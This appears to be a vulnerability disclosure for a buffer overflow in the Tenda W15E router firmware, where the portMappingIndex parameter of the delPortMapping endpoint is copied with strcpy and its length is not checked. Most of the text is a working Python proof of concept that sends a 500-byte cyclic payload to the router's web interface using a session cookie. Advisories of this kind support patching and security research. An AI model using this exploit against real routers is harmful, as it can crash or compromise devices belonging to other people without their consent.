 # W15E buff overflow vulnerability
 
Vendor: Tenda W15E  
Version: US_W15EV1.0br_V15.11.0.7(752_816)_CN_TDC

Description：There is a buff overflow vulnerability in W15E router. The function is 0x0007D064. IndexSet gets the content of portMappingIndex and uses the strcpy without check the length, which result in buffer overflow.

The static analysis is as follows:
![image](image/2.png)

POC:
```py
import requests
from pwn import *

url='http://192.168.100.2/goform/delPortMapping'
payload=cyclic(500)
header={
'Host': '192.168.100.2',
'User-Agent':'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0',
'Accept':'*/*',
'Accept-Language':'en-US,en;q=0.5',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
'X-Requested-With':'XMLHttpRequest',
'Origin':'http://192.168.100.2',
'Connection':'close',
'Referer':'http://192.168.100.2/mac_filter.html?random=0.008005922687726486&',
'Cookie':'password=17399d7fb9cf0644a1f50f015116919dcabazx'} 

data1 ='portMappingIndex=%s'%payload
ret = requests.post(url = url ,headers = header,data = data1, verify=False)
```
The exploitation is as shown
![image](image/2-use.png)






